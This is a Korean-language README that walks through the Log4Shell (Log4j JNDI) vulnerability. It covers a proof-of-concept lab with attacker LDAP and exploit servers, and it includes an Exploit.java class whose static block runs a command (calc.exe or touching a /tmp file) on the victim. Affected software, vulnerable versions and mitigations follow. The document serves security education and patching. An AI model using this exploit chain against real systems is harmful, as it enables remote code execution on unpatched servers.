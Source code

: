 # log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 LDAP이나 DNS lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버 (vulnerable-app)
    * e.g.) log.info("X-Api-Version: {}, X-Api-Version);
    * listen port 8080
    * ![victim](image/victim_vuln_spring_server.png)
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * ![ldapref](image/attacker_ldapref_server.png)
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * ![exploit](image/attacker_exploit_server.png)
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * ![exploit](image/attack_req.png)
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * ![attk_result](image/attack_result.png)

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
